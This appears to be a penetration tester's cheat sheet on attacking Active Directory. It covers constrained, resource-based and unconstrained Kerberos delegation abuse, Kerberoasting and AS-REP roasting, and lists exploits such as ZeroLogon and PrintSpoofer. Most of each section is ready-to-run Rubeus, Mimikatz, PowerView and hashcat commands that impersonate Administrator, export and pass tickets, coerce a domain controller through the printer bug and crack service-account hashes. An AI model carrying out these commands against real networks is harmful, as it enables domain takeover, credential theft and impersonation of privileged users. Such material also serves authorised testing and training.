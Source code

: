 ## Constrained Delegation
### Summary
Constrained delegation can be set on the _frontend server_ (e.g. IIS) to allow it to delegate to _only selected backend services_ (e.g. MSSQL) on behalf of the user.

DACL UAC property: `TrustedToAuthForDelegation`. This allows `s4u2self`, i.e. requesting a TGS on behalf of _anyone_ to oneself, using just the NTLM password hash. This effectively allows the service to impersonate other users in the domain with just their hash, and is useful in situations where Kerberos isn’t used between the user and frontend.

DACL Property: `msDS-AllowedToDelegateTo`. This property contains the SPNs it is allowed to use `s4u2proxy` on, i.e. requesting a forwardable TGS for that server based on an existing TGS (e.g. the one gained from using `s4u2self`). This effectively defines the backend services that constrained delegation is allowed for.

**NOTE:** These properties do NOT have to exist together! If `s4u2proxy` is allowed without `s4u2self`, user interaction is required to get a valid TGS to the frontend service from a user, similar to unconstrained delegation.

#### Exploitation

In this case, we use Rubeus to automatically request a TGT and then a TGS with the `ldap` SPN to allow us to DCSync using a machine account.

```powershell
# Get a TGT using the compromised service account with delegation set (if needed)
.\Rubeus.exe asktgt /user:sa_with_delegation /domain:domain.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E

# Use s4u2self and s4u2proxy to impersonate the DA user to the allowed SPN
.\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:Administrator /msdsspn:time/dc /ptt

# Same as above, but access the LDAP service on the DC (for dcsync) using pw hash
.\Rubeus.exe s4u /user:sa_with_delegation /impersonateuser:Administrator /msdsspn:time/dc /altservice:ldap /ptt /rc4:2892D26CDF84D7A70E2EB3B9F05C425E
```
### References
- [Agent on a Computer Configured For Constrained Delegation](http://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
- [User Account Configured For Constrained Delegation + A Known Plaintext](http://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
- [User Account Configured For Constrained Delegation + A Known NTLM Hash](http://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
- [Computer Account Configured For Constrained Delegation + A Known NTLM Hash](http://www.harmj0y.net/blog/activedirectory/s4u2pwnage/)
***
## ACL Abuse
***
##  Resource Based Constrained Delegation
### Summary

Resource-Based Constrained Delegation (RBCD) configures the _backend server_ (e.g. MSSQL) to allow _only selected frontend services_ (e.g. IIS) to delegate on behalf of the user. This makes it easier for specific server administrators to configure delegation, without requiring domain admin privileges.

DACL Property: `msDS-AllowedToActOnBehalfOfOtherIdentity`.

In this scenario, `s4u2self` and `s4u2proxy` are used as above to request a forwardable ticket on behalf of the user. However, with RBCD, the KDC checks if the SPN for the requesting service (i.e., the _frontend service_) is present in the `msDS-AllowedToActOnBehalfOfOtherIdentity` property of the _backend service_. This means that the _frontend service_ needs to have an SPN set. Thus, attacks against RBC have to be performed from either a service account with SPN or a machine account.

#### Exploitation

If we compromise a _frontend service_ that appears in the RBCD property of a _backend service_, exploitation is the same as with constrained delegation above. This is however not too common.

A more often-seen attack to RBCD is when we have `GenericWrite`, `GenericAll`, `WriteProperty`, or `WriteDACL` permissions to a computer object in the domain. This means we can write the `msDS-AllowedToActOnBehalfOfOtherIdentity` property on this machine account to add a controlled SPN or machine account to be trusted for delegation. We can even create a new machine account and add it. This allows us to compromise the target machine in the context of any user, as with constrained delegation above.

```powershell
# Create a new machine account using PowerMad
New-MachineAccount -MachineAccount InconspicuousMachineAccount -Password $(ConvertTo-SecureString 'Compromised123!' -AsPlainText -Force)

# Get SID of our machine account and bake raw security descriptor for msDS-AllowedtoActOnBehalfOfOtherIdentity property on target
$sid = Get-DomainComputer -Identity InconspicuousMachineAccount -Properties objectsid | Select -Expand objectsid
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($sid))"
$SDbytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDbytes,0)

# Use PowerView to use our GenericWrite (or similar) priv to apply this SD to the target
Get-DomainComputer -Identity TargetSrv01 | Set-DomainObject -Set @{'msdsallowedtoactonbehalfofotheridentity'=$SDBytes}

# Finally, use Rubeus to exploit RBCD to get a TGS as admin on the target
.\Rubeus.exe s4u /user:InconspicuousMachineAccount$ /rc4:3644AC5E3D9441CCBCEF08CBAF98E910 /impersonateuser:Administrator /msdsspn:CIFS/TargetSrv01.corp1.com /ptt
```
### References
- Write privilege on computer object with msDSAllowedToActOnBehalfOfOTherIdentity ?
	- [Dfault policies for adding new computers present ?](https://decoder.cloud/2019/03/20/donkeys-guide-to-resource-based-constrained-delegation-from-standard-user-to-da/)
- LDAP Signing disabled ?
	- [Delegation Via Image Change](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
***
## Unconstrained Delegation
Can be set on a _frontend service_ (e.g., IIS web server) to allow it to delegate on behalf of the user to _any service in the domain_ (towards a _backend service_, such as an MSSQL database).

DACL UAC property: `TrustedForDelegation`.

#### Exploitation

With administrative privileges on a server with Unconstrained Delegation set, we can dump the TGTs for other users that have a connection. With Mimikatz:

```plaintext
sekurlsa::tickets /export
kerberos::ptt c:\path\to\ticket.kirbi
```

Or with Rubeus:

```powershell
.\Rubeus.exe klist
.\Rubeus.exe dump /luid:0x5379f2 /nowrap
.\Rubeus.exe ptt /ticket:doIFSDCC[...]
```

We can also gain the hash for a domain controller machine account, if that DC is vulnerable to the printer bug. On the server with Unconstrained Delegation, monitor for new tickets with Rubeus.

```powershell
.\Rubeus.exe monitor /interval:5 /nowrap
```

From attacking machine, entice the Domain Controller to connect using the printer bug. Binary from [here](https://github.com/leechristensen/SpoolSample).

```powershell
.\MS-RPRN.exe \\dcorp-dc.dollarcorp.moneycorp.local \\dcorp-appsrv.dollarcorp.moneycorp.local
```

The TGT for the machine account of the DC should come in in the first session. We can pass this ticket to gain DCSync privileges.

```powershell
.\Rubeus.exe ptt /ticket:doIFxTCCBc...
```
***
## Exploits
- ZeroLogon
- SMBv1?
	- Eternal Blue
- [Has SeImpersonatePrivilege or SeAssignPrimaryTokenPrivilege ?](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
	- PrintSpoofer
- Microsoft Exchange Proxylogon 

***

## ADIDNS
- Exploit ADIDNS by adding wildcard dns records via LDAP
	- [Has access to authenticated users?](https://blog.netspi.com/exploiting-adidns/)

***
 ## WSUS
- Push malicious updates

***
### Kerberoasting

#### Automatic

With PowerView:

```powershell
Request-SPNTicket -SPN "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
```

Crack the hash with Hashcat:

```bash
hashcat -a 0 -m 13100 hash.txt `pwd`/rockyou.txt --rules-file `pwd`/hashcat/rules/best64.rule
```

#### Manual

```powershell
# Request TGS for kerberoastable account (SPN)
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"

# Dump TGS to disk
Invoke-Mimikatz -Command '"kerberos::list /export"'

# Crack with TGSRepCrack
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\mssqlsvc.kirbi
```

#### Targeted kerberoasting by setting SPN

We need ACL write permissions to set UserAccountControl flags for said user, see above for hunting. Using PowerView:

```powershell
Set-DomainObject -Identity support355user -Set @{serviceprincipalname='any/thing'}
```

### AS-REP roasting

Get the hash for a roastable user (see above for hunting). Using `ASREPRoast.ps1`:

```powershell
Get-ASREPHash -UserName VPN355user
```

Crack the hash with Hashcat:

```bash
hashcat -a 0 -m 18200 hash.txt `pwd`/rockyou.txt --rules-file `pwd`/hashcat/rules/best64.rule
```

#### Targeted AS-REP roasting by disabling Kerberos pre-authentication

We need ACL write permissions to set UserAccountControl flags for said user, see above for hunting. Uses PowerView.

```powershell
Set-DomainObject -Identity Control355User -XOR @{useraccountcontrol=4194304}
```